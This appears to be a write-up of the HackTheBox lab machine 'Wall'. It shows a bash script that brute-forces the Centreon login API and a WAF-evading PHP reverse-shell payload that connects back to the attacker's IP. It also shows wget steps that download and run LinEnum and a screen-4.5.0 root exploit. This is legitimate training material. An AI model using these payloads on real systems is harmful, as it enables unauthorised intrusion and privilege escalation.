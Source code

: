 # HackTheBox: Wall.
My write up for the recently retired HackTheBox machine: Wall!
Wall was a fairly easy machine, although it was a little frustrating 

The machine had a web application vulnerable to RCE, however it was (semi) protected by a WAF.
Root access involved a vulrable SUID binary.

## In the beginning..
As usual, I run nMap:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finding http on port 80 along with SSH on port 22.

### HTTP

Continuing with basic enumeration, I run dirb on the web app.

```
$ dirb http://10.10.10.157/
```
Discovering these pages:
* aa.php
* server_status
* monitoring

/monitoring being the most interesting page, as it was protected by basic http authentication.

After attempting to login with common credentials and bruteforcing to no avail. I looked to the forums - finding this interesting post by @argot:

  English teachers can be very good at monitoring their class. Often times, if you use the wrong verb, they wont let you go. If you use different VERBS, maybe they'll let you go or at the very least they'll be more talkative.

## Verbs?
Instead of GET, a POST request to /monitoring results in:
```
root@kali:~# curl -X POST "http://10.10.10.157/monitoring/" -d "username=u&password=p"
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>
<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
A redirection to /centreon!

  [Centreon](https://github.com/centreon/centreon) is one of the most flexible and powerful monitoring softwares on the market; it is absolutely free and Open Souce.

Looking around on centreon [documentation](https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html#authentication), I found the login api was at:

  http://10.10.10.157/centreon/api/index.php?action=authenticate

### Bruteforcing script!
The documentation says the default username is admin.
So I wrote a super simple script to bruteforce login API using rockyou:

```
#!/bin/bash
cat rockyou.txt | while read line
do
	echo "password=$line";
	curl -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line";
done

```
The password is found to be password1.

### Attempting to pop a shell

Some research yields this related CVE: 
https://github.com/mhaskar/CVE-2019-13024

However it dosen't work. Why?

## WAF Evasion
A Web Application Firewall is blocking my attempts. 
I tested the WAF by hand, finding it results in status 403 when either 'nc' or ' ' (space character) were present.

So to inject the command, these two could not be present.

## ${IFS}
After some time studying at mhaskar's script, I decided to exploit using the GUI route.
Instead of space, I used ${IFS} to escape the space char as well as a PHP exploit to bypass 'nc'.

* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [StackExchange]https://security.stackexchange.com/questions/198928/reverse-php-shell-disconnecting-when-netcat-listener

I used those to craft a payload that results in status 200, then put the payload into Commands > Misc and bound it to the poller.
Payload:
```
php${IFS}-r${IFS}'$s=fsockopen("10.10.14.***",1337);$proc=proc_open("/bin/sh",array(0=>$s,1=>$s,2=>$s),$pipes);'

```
I then navigated to the page that the mhaskar script is sending requests to, checked the box that says 'post command' and hit export while listening on netcat.

Netcat listener:
```
$ nc -lvp 1337
```
I got a shell!

## www-data

Now I have a restricted shell - I need to perfrom some privilege escalation.
I used LinEnum by running the following on my machine in the directory that LinEnum was in.
```
$ python -m SimpleHTTPServer 8000
```
And running the following on the target machine:
```
& wget 10.10.14.***:8000/LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```

## SUID PrivEsc

LinEnum shows me a vulnerable SUID:
```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
After a bit of research, I found an [exploit](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)!
With accompanying script: [screen2root](https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh).

In the same way as before I run the script on the target machine:
```
$ wget 10.10.14.***:8000/screenroot.sh
$ chmod +x screenroot.sh
$ ./screenroot.sh
```

## Rooted!

After running the script, I get root access!

## Thanks for reading :)

I've prepared writeups for Postman, Traverxec and Obscurity. Check back when they're retired for the writeups.
